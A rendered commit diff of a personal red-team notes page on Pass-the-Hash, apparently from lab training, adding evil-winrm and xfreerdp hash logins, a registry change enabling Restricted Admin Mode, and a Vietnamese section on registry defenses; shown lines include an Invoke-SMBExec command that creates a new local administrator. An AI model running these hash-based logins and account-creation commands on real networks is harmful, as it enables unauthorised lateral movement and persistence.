

Before and after one commit to HackerTyperAbuser/AttackNotes, a Markdown page: Red Teaming/Techniques/Pass-The-Hash.md, 3 parts joined by grey strips. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
update: PtH module

````diff
--- a/Red Teaming/Techniques/Pass-The-Hash.md
+++ b/Red Teaming/Techniques/Pass-The-Hash.md
@@ -1,6 +1,4 @@
 **T1550.002**
-PSexec will always attempt to return as NT_AUTHORITY\SYSTEM on admin accounts.
-
 # C2
 (Cobalt Strike) PtH
 - Uses mimikatz sekurlsa::pth
@@ -32,6 +31,21 @@ exploit/windows/smb/psexec
 ```bash
 secretsdump <DOMAIN>/<USER>:@<IP> -hashes <HASH>
 ```
+Evil-winrm
+```bash
+evil-winrm -i 10.129.201.126 -u Administrator -H
+```
+## RDP Protection
+- `Restricted Admin Mode`, which is disabled by default, should be enabled on the target host; otherwise, you will be presented with the following error
+![[Pasted image 20261029114529.png]]
+Enabling `Restricted Admin Mode`
+```cmd
+c:\tools> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
+```
+PtH xfreerdp
+```bash
+xfreerdp3 /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
+```
 ## Windows
 Mimikatz
 - /aes128 and /aes256 for other encryption hashes
@@ -47,3 +61,7 @@ PS c:\tools\Invoke-TheHash> Import-Module .\Invoke-TheHash.psd1
 PS c:\tools\Invoke-TheHash> Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
 ```
 ![[Pasted image 20261029114122.png]]
+## Defenses against PtH
+Registry key `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy` đặt là 0 bật UAC chặn remote tới các tài khoản admin khác ngoài `RID-500 Administrator`
+- Có thể chặn cả `RID-500 Administrator` nếu `FilterAdministratorToken` được đặt giá trị `1` (bật, default giá trị `0`)
+- Nếu có tài khoản domain có quyền local admin thì vẫn sử dụng được
````
Also changed, not shown: other parts of Red Teaming/Techniques/Pass-The-Hash.md (+1 -0 lines), Pasted image 20261029114529.png (added).
